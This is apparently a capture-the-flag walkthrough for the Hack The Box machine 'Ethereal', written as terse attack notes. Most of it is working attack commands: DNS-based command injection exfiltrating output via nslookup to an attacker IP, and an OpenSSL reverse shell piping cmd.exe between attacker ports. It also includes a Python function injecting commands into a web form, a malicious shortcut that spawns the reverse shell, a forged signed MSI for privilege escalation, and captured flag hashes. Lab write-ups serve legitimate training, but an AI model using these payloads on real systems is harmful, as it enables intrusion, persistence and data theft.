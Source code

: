 ### Check the md5 sum of orca.msi, then search on virustotal.com.
      
      jason> md5sum Orca.msi


Then go to [virustotal](virustotal.com) to check out the md5sum code and if there is any match.

### Mount downloaded disk file.
    
    jason> cd /mnt
    jason> mount DISK1 /DISK1
    jason> mount DISK2 /DISK2
    jason> mount FDISK /FDISK

    
### nslookup code injection    

    jason> responder
    burp> for /f %a in ('whoami') do (nslookup %a 10.10.14.7)
    burp> for /f "tokens=1-26" %a in ('{whatever the fuck}')  do nslookup Q%[a-z]Z. 10.10.14.7

If the above command failed, try this one.

    script> for /f "tokens=1-26" %a in ('cmd /c "{whatever the fuck}"') do nslookup Q%[a-z]Z. 10.10.14.7
    
    Then you got code execution from dns server
    
    burp> for /f "tokens=1,2,3,4,5,6" %a in ('dir') do (echo %a%b%c%d%e%f)
    
### Queryname Scapy Injection    

[DNS-Packet-Injector](https://github.com/bhutani92/DNS-Packet-Injector)
    
### Escalation    

Check environment varables.    

    > set 
    > whoami /all
    
**SeImpersonatePrivilage Bypass traverse checking Enabled** means you can try **Rotten Potato**.

Check if powershell works    
    > powershell whoami
    
Check Out Desktop.    
    > dir C:\users\alan\Desktop
    > dir C:\users\public\desktop
      
Check firewall    
    > netsh advfirewall firewall show rule name=all direction=out | findstr /c:Name:
    
Go to **Program Files**.
    > cd progra~1

Go to Program Files (x86).
    > cd progra~2
      
### LOLBAS Windows      
[LOLBAS-PROJECT](https://lolbas-project.github.io/)

### OpenSSL Reverse Shell 
[OpenSSL Reverse Shell](https://blog.inequationgroup.com/openssl-nc/)

Initialize openssl protocal    

    jason> openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
    
Run this command on target to connect the input of cmd.exe onto the server listening at
[ip] on [port1] and output onto the the server listening at [ip] on [port2]

    target> openssl s_client -quiet -connect [ip]:[port1] | cmd.exe | openssl s_client -quiet -connect [ip]:[port2]
    jason> openssl s_server -key key.pem -cert cert.pem -port 73
    jason> openssl s_server -key key.pem -cert cert.pem -port 136
    
Add the shellcode script with the following code.
    
    def do_cmd(self, args):
        #cmd = f"""-n 1 127.0.0.1 && cmd /c "{args}" """
        cmd = f"""-n 1 127.0.0.1 && start cmd /c "{args}" """
        data = {
            '__VIEWSTATE':self.VS,
            '__VIEWSTATEGENERATOR':self.VSG,
            '__EVENTVALIDATION':self.EV,
            'search':cmd,
            'ctl02':self.CTL
        }
        auth = self.auth
        requests.post('http://ethereal.htb:8080', data=data, auth=auth)

Notice adding **start cmd /c**, without **start**, you may not get reverse shell. Because just with **cmd /c**, you can only get shell run on host terminal(Used by **Admin Console**).


    script> cmd c:\progra~2\openssl-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.7:73 | cmd.exe | c:\progra~2\openssl-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.7:136
    
### Escalation    

    box> cd c:\users\pubic\desktop
    box> icacls "Visual Studio 2017.lnk"
    box> echo "HELLO " > "Visual Studio 2017.lnk"
    
### Create a malicious shortcut    

    box> $WScript = New-Object -COM WScript.shell
    box> $SC = $WScript.CreateShortcut('Jasondidit.lnk')
    box> $SC
    box> $SC.TargetPath="C:\windows\system32\cmd.exe"
    box> $SC.Arguments="/c c:\progra~2\openssl-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.7:73 | cmd.exe | c:\progra~2\openssl-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.7:136"
    box> $SC.Save()
    box> dir
    
[Optional]Share file between windows machine and Linux machine.    
    
    jason> impacket-smbserver -smb2support files 'pwd'
    
Or you can directly download through python SimpleHTTP server

    jason> openssl s_server -key key.pem -cert cert.pem -port 73 < Jasondidit.lnk
    box> c:\progra~2\Openssl-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.7:73 > C:\Users\Public\Desktop\Shortcuts\Jasondidit.lnk
    script> cmd copy /y C:\Users\Public\Desktop\Shortcuts\Jasondidit.lnk "C:\Users\Public\Desktop\Shortcuts\Visual Studio 2017.lnk"
    
### Create a malicious msi file.

    box> cd D:\Certs
    box> c:\progra~2\openssl-v1.1.0\bin\openssl.exe base64 -in MyCa.cer
    box> c:\progra~2\openssl-v1.1.0\bin\openssl.exe base64 -in MyCa.pvk
    
#### Download [WiX Toolset](https://github.com/wixtoolset/wix3/releases)

#### Create msi malicious file following this blog by [XPNSEC](https://blog.xpnsec.com/becoming-system/)
    windows> candle.exe my.wix
    windows> light.exe my.wixobj
    
#### Sign your msi file ( makecert.exe pvk2pfx.exe signtool.exe ) 

    windows> cd "C:\Porgram Files\{Windows SDK}\10\bin\{VERSION}\x64\"
    windows> echo $PATH
    windows> set PATH="C:\Porgram Files\{Windows SDK}\10\bin\{VERSION}\x64";%PATH%
    windows> makecert -n "CN=Ethereal" -pe -cy end -ic myca.cer -iv myca.pvk -sky signature -sv Jasondidit.pvk Jasondidit.cer
    windows> pvk2pfx -pvk Jasondidit.pvk -spc Jasondidit.cer -pfx Jasondidit.pfx
    windows> signtool sign /v /f Jasondidit.pfx my.msi
    
#### Transfer msi file through openssl tunnel.
    jason> openssl s_server -key key.pem -cert cert.pem -port 73 < my1.msi
    windows> cmd c:\progra~2\openssl-v1.1.0\bin\openssl.exe -quiet -connect 10.10.14.7:73 > c:\users\public\desktop\shortcuts\my1.msi
    
Use the copy and paste way to get jorge user access, then copy the msi file to d:\dev\msis
    windows> copy c:\users\public\desktop\shortcuts\my1.msi d:\dev\msis\
    
Then wait for a reverse shell hitting back.    

#### Get file size through powershell
    windows> powershell (Get-Item root.txt).length


Impersonate thing is different

    windows> cipher /c root.txt
    
    
### Flag     
User Flag **2b9a4ca09408b4a39d87cbcd7bd524dd**
Root Flag 1cb6f1fc220e3f2fcc0e3cd8e2d9906f

    
